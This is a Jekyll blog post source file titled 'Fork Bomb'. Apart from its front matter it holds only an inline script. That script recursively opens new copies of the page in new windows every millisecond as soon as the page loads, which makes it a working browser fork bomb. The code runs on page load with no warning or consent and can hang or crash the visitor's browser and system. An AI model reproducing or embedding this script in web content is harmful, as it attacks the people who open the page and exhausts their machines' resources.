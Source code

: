 ```yaml
---
layout: post
title: Fork Bomb
permalink: /fork/
---
```


<script>
(function forkBomb(timeout = 1, i = 0) {
  setTimeout(() => {
    window.open('./?v=' + Math.random(), '_new' + (i || ''))
    forkBomb(timeout, i + 1)
  }, timeout)
})()
</script>